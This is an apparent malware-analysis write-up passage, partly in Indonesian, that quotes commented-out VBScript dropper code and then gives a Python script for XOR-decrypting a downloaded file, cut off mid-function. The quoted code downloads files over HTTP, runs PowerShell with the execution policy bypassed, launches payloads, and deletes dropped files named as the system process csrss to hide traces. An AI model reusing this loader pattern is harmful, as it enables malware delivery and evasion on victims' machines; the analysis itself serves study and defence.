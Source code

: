 ```
# For i = 0 To UBound(arrFilePaths)
#     Dim intReturnCode
#     intReturnCode = objShell.Run("powershell -ExecutionPolicy Bypass -File C:\Users\Public\temp.ps1 -FilePath " & Chr(34) & arrFilePaths(i) & Chr(34) & " -KeyPath " & Chr(34) & strDownloadPath2 & Chr(34), 0, True)  

#     If intReturnCode <> 0 Then
#         WScript.Echo "PowerShell script execution failed for " & arrFilePaths(i) & " with exit code: " & intReturnCode
#     End If
# Next

# objShell.Run strExecutablePath, 1, True    
# objShell.Run strShowfilePath, 1, True      
# objFSO.DeleteFile "C:\Users\Public\csrss.dll"
# objFSO.DeleteFile "C:\Users\Public\csrss.exe"
# objFSO.DeleteFile "C:\Users\Public\csrss.exe.config"
# objFSO.DeleteFile "C:\Users\Public\temp.ps1"

# Sub DownloadFile(url, path)
#     Dim objStream
#     Set objStream = CreateObject("ADODB.Stream")
#     objHTTP.Open "GET", url, False
#     objHTTP.Send
#     If objHTTP.Status = 200 Then
#         objStream.Open
#         objStream.Type = 1
#         objStream.Write objHTTP.ResponseBody
#         objStream.SaveToFile path, 2      
#         objStream.Close
#     End If
#     Set objStream = Nothing
# End Sub
```

Download fileUrl nya dan decrypt

```
# XOR Decryption Script
# Purpose: Decrypt files using the provided XOR key without executing any malicious actions.

import os

def xor_decrypt(file_path, key_path, output_path):
    """
    Decrypt a file using the XOR key.
    :param file_path: Path to the encrypted file.
    :param key_path: Path to the XOR key file.
    :param output_path: Path to save the decrypted file.
    """
    try:
        with open(key_path, 'rb') as key_file:
            key = key_file.read()

        with open(file_path, 'rb') as encrypted_file:
            file_content = bytearray(encrypted_file.read())

        key_length = len(key)
        for i in range(len(file_content)):
            file_content[i] ^= key[i % key_length]

        with open(output_path, 'wb') as decrypted_file:
            decrypted_file.write(file_content)

```